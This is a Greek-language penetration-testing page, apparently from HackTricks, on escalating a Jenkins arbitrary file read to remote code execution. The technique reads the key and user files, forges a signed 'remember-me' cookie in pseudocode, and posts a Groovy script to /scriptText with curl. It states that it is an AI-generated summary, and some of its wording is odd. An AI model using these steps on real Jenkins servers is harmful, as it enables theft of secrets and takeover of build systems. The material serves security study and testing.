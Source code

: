 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

Σε αυτή την ανάρτηση του blog είναι δυνατή η εύρεση ενός εξαιρετικού τρόπου για να μετατραπεί μια ευπάθεια Local File Inclusion στο Jenkins σε RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Αυτό είναι ένα AI δημιουργημένο σύνοψη του μέρους της ανάρτησης όπου η δημιουργία ενός αυθαίρετου cookie κακοποιείται για να αποκτήσει RCE εκμεταλλευόμενη μια τοπική ανάγνωση αρχείου μέχρι να έχω χρόνο να δημιουργήσω μια σύνοψη μόνος μου:

### Προαπαιτούμενα Επίθεσης

- **Απαιτούμενη Λειτουργία:** Το "Remember me" πρέπει να είναι ενεργοποιημένο (προεπιλεγμένη ρύθμιση).
- **Επίπεδα Πρόσβασης:** Ο επιτιθέμενος χρειάζεται συνολικές/αναγνωστικές άδειες.
- **Μυστική Πρόσβαση:** Ικανότητα ανάγνωσης τόσο δυαδικού όσο και κειμενικού περιεχομένου από βασικά αρχεία.

### Λεπτομερής Διαδικασία Εκμετάλλευσης

#### Βήμα 1: Συλλογή Δεδομένων

**Ανάκτηση Πληροφοριών Χρήστη**

- Πρόσβαση στη διαμόρφωση χρήστη και τα μυστικά από `$JENKINS_HOME/users/*.xml` για κάθε χρήστη για να συγκεντρωθούν:
- **Όνομα Χρήστη**
- **Seed Χρήστη**
- **Χρονική Σημείωση**
- **Hash Κωδικού**

**Εξαγωγή Μυστικού Κλειδιού**

- Εξαγωγή κρυπτογραφικών κλειδιών που χρησιμοποιούνται για την υπογραφή του cookie:
- **Μυστικό Κλειδί:** `$JENKINS_HOME/secret.key`
- **Κύριο Κλειδί:** `$JENKINS_HOME/secrets/master.key`
- **Αρχείο Κλειδιού MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Βήμα 2: Δημιουργία Cookie

**Προετοιμασία Token**

- **Υπολογισμός Χρόνου Λήξης Token:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Προσθέτει μία ώρα στην τρέχουσα ώρα
```

- **Συγκέντρωση Δεδομένων για το Token:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**Αποκρυπτογράφηση Κλειδιού MAC**

- **Αποκρυπτογράφηση Αρχείου Κλειδιού MAC:**

```javascript
key = toAes128Key(masterKey)  // Μετατροπή του κύριου κλειδιού σε μορφή AES128
decrypted = AES.decrypt(macFile, key)  // Αποκρυπτογράφηση του αρχείου .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Υπολογισμός Υπογραφής**

- **Υπολογισμός HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Υπολογισμός HMAC χρησιμοποιώντας το token και το κλειδί MAC
tokenSignature = bytesToHexString(mac) // Μετατροπή του MAC σε δεκαεξαδική συμβολοσειρά
```

**Κωδικοποίηση Cookie**

- **Δημιουργία Τελικού Cookie:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Κωδικοποίηση Base64 των δεδομένων cookie
```

#### Βήμα 3: Εκτέλεση Κώδικα

**Αυθεντικοποίηση Συνεδρίας**

- **Ανάκτηση CSRF και Συνεδριακών Tokens:**
- Κάντε ένα αίτημα στο `/crumbIssuer/api/json` για να αποκτήσετε `Jenkins-Crumb`.
- Συλλέξτε το `JSESSIONID` από την απάντηση, το οποίο θα χρησιμοποιηθεί σε συνδυασμό με το cookie "remember-me".

**Αίτημα Εκτέλεσης Εντολής**

- **Αποστολή POST Αιτήματος με Groovy Script:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Το Groovy script μπορεί να χρησιμοποιηθεί για την εκτέλεση εντολών σε επίπεδο συστήματος ή άλλων λειτουργιών μέσα στο περιβάλλον Jenkins.

Η παραδείγματος curl εντολή που παρέχεται δείχνει πώς να κάνετε ένα αίτημα στο Jenkins με τις απαραίτητες κεφαλίδες και cookies για να εκτελέσετε αυθαίρετο κώδικα με ασφάλεια.

{{#include ../../banners/hacktricks-training.md}}
